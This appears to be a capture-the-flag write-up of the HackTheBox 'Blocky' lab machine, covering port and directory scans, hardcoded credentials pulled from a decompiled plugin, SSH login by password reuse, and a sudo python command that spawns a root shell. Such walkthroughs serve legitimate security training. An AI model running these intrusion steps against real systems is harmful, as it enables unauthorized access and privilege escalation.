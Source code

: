 ```yaml
---
layout: post
title:  "HackTheBox - Blocky"
date:   2021-08-06 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Gobuster Scan:
```
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.10.37/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/server-status        (Status: 403) [Size: 299]                                     
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]      
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]  
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]
```
Visiting /Plugins we see two jar files which we download .
On running it shows "NO MANIFEST ATTRIBUTE" so i did simple strings and it gave a probable username -> ryanhamshire

# FOOTHOLD

On decompiling the jar files we get some credentials and we can login to /phpmyadmin using those:
```java
/* Decompiler 2ms, total 365ms, lines 21 */
package com.myfirstplugin;

public class BlockyCore {
   public String sqlHost = "localhost";
   public String sqlUser = "root";
   public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";

   public void onServerStart() {
   }

   public void onServerStop() {
   }

   public void onPlayerJoin() {
      this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
   }

   public void sendMessage(String username, String message) {
   }
}
```

There in the following link :
```
http://10.10.10.37/phpmyadmin/sql.php?db=wordpress&token=9e1f2a9aa56a0c0f869de8b0bfe9afd5&goto=db_structure.php&table=wp_users&pos=0
```
We find user name and pass, however we could not crack the hash , but trying the previously found credentials from the decompiled file gave us success when we logged in via ssh and now we can grab the user flag.

# PRIVILEGE ESCALATION

Running sudo -l on the machine shows us that we have permissions to execute every command so I ran my python exploit from GTFOBins to get root.

```s
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

notch@Blocky:~$ sudo python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
```